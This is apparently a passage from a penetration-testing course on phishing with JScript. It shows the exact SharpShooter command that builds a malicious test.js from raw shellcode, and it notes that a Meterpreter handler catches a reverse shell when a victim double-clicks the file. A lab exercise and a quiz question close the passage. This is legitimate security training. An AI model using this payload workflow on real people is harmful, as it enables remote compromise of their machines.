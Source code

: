 The term "stageless" for SharpShooter refers to whether the entire Jscript payload is transferred at once, or if HTML smuggling is used with a staged Jscript payload.

**--rawscfile** specifies the file containing our shellcode, and we set our output file using **--output**, leaving off the file extension. The full command is shown below:

```
kali@kali:/opt/SharpShooter$ sudo python2 SharpShooter.py --payload js --dotnetver 4 --stageless --rawscfile /var/www/html/shell.txt --output test
...
    
[*] Written delivery payload to output/test.js
```

> Listing 38 - Generating malicious Jscript file with SharpShooter

Once again, we must configure a multi/handler matching the generated Meterpreter shellcode. Next, we need to copy the generated **test.js** file to our Windows 11 dev machine. When we double-click it, we will obtain a reverse shell.

Using an automated tool can greatly improve productivity and reduce repetitive tasks, but it is always important to understand the techniques employed and the operation of underlying code.

So far, we have taken advantage of both PowerShell and compiled C# assemblies - but we can also combine the two to dynamically load assemblies through PowerShell without touching the disk.

1

(MDSec's ActiveBreach Team, 2019), [https://github.com/mdsecactivebreach/SharpShooter](https://github.com/mdsecactivebreach/SharpShooter) [↩︎](https://portal.offsec.com/courses/pen-300-9502/learning/phishing-with-jscript-188661/phishing-with-jscript-188714#fnref-local_id_91-1)

2

(W3Schools, 2019), [https://www.w3schools.com/python/python\_pip.asp](https://www.w3schools.com/python/python_pip.asp) [↩︎](https://portal.offsec.com/courses/pen-300-9502/learning/phishing-with-jscript-188661/phishing-with-jscript-188714#fnref-local_id_91-2)

### Resources

Some of the labs require you to start the target machine(s) below.

Please note that the IP addresses assigned to your target machines may not match those referenced in the Module text and video.

SharpShooter - dev01

**Labs**

1. Start the dev01 machine and repeat the steps illustrated in this section. Install SharpShooter on Kali and generate a Jscript shellcode runner then expand on the attack by creating a [_staged attack_](https://www.mdsec.co.uk/2018/03/payload-generation-using-sharpshooter/) that also leverages HTML smuggling to deliver the malicious Jscript file.

What is the primary function of SharpShooter?

```
A) To create Python scripts
B) To generate and execute arbitrary C# source code in various formats
C) To compile .NET applications directly
D) To debug C# assemblies
```
